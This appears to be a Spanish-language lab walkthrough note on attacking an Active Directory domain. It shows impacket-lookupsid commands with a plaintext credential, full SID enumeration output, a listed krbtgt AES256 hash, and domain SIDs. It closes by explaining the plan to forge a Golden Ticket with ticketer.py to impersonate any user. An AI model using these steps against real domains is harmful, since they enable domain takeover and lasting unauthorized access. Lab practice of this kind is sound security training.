 ```


lookupsid.py child/corpmngr:'User4&*&*'@warfare.corp

impacket-lookupsid child/corpmngr:'User4&*&*'@warfare.corp

```
─$ impacket-lookupsid child/corpmngr:'User4&*&*'@warfare.corp
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Brute forcing SIDs at warfare.corp
[*] StringBinding ncacn_np:warfare.corp[\pipe\lsarpc]
        [*] Domain SID is: S-1-5-21-3375883379-808943238-3239386119
498: WARFARE\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: WARFARE\Administrator (SidTypeUser)
501: WARFARE\Guest (SidTypeUser)
502: WARFARE\krbtgt (SidTypeUser)
512: WARFARE\Domain Admins (SidTypeGroup)
513: WARFARE\Domain Users (SidTypeGroup)
514: WARFARE\Domain Guests (SidTypeGroup)
515: WARFARE\Domain Computers (SidTypeGroup)
516: WARFARE\Domain Controllers (SidTypeGroup)
517: WARFARE\Cert Publishers (SidTypeAlias)
518: WARFARE\Schema Admins (SidTypeGroup)
519: WARFARE\Enterprise Admins (SidTypeGroup)
520: WARFARE\Group Policy Creator Owners (SidTypeGroup)
521: WARFARE\Read-only Domain Controllers (SidTypeGroup)
522: WARFARE\Cloneable Domain Controllers (SidTypeGroup)
525: WARFARE\Protected Users (SidTypeGroup)
526: WARFARE\Key Admins (SidTypeGroup)
527: WARFARE\Enterprise Key Admins (SidTypeGroup)
553: WARFARE\RAS and IAS Servers (SidTypeAlias)
571: WARFARE\Allowed RODC Password Replication Group (SidTypeAlias)
572: WARFARE\Denied RODC Password Replication Group (SidTypeAlias)
1000: WARFARE\DC01$ (SidTypeUser)
1101: WARFARE\DnsAdmins (SidTypeAlias)
1102: WARFARE\DnsUpdateProxy (SidTypeGroup)
1103: WARFARE\CHILD$ (SidTypeUser)
```


# RESULTADOS

1. krbtgt aes256 Hash
        ad8c273289e4c511b4363c43c08f9a5aff06f8fe002c10ab1031da11152611b2

2. Parent SID : 
        S-1-5-21-3375883379-808943238-3239386119

3. Child SID : 
        S-1-5-21-3754860944-83624914-1883974761


Qué se va a hacer?

Se va a crear un Golden Ticket usando ticketer.py de Impacket.
El Golden Ticket es un ticket TGT falsificado que te permite ser cualquier usuario del dominio, incluso Domain Admin, sin conocer su contraseña real.


📌 ¿Qué se logra con esto?

- Se genera un Golden Ticket para corpmngr.
- Este ticket no expira nunca (o hasta que cambies la clave krbtgt).
```